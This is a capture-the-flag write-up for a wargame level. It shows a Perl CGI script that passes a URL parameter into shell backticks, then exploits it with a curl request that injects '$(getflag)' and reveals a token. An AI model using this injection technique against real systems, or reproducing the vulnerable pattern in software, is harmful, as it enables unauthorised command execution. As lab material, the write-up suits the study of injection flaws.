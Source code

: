 Once in the home of level04, we can see :
```
ls -l
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl

cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

So here we can see a basic perl script, the content itself doesn't seem really interesting.
Otherwise we can see a lolcalhost:4747 so we'll dig into that.

We know that apache is listening on port 4747 and apache base folder is /var/www

```
cat /var/www/index.html # Permission denied
cat /var/www/level04/level04.pl # same file as previously
-r-xr-x---+ 1 flag04 level04 152 May 11  2021 /var/www/level04/level04.pl
```
Looks like we found our target. As in the first levels we can see a file owned by flag04.

By looking at the perl function, we realize that we can inject an executable command in it:
```
curl localhost:4747?x='$(getflag)'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
